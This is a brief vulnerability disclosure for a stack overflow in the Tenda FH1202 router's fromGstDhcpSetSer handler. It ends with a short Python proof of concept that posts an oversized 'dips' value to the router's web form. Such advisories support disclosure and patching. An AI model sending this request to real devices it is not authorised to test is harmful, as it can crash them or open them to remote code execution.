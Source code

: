 # Tenda FH1202 fromGstDhcpSetSer
### Overview
vendor: Tenda

product: FH1202

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the dips parameter in the fromGstDhcpSetSer function.
### Vulnerability details
In function fromGstDhcpSetSer line 41, it reads in a user-provided parameter `dips`, and the variable is passed to the `strncpy` function without any length check, which may overflow the stack-based buffer `dest`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/13.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/GstDhcpSetSer"

data = {
    "dips": "a" * 4000 + ".1",
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/14.png)
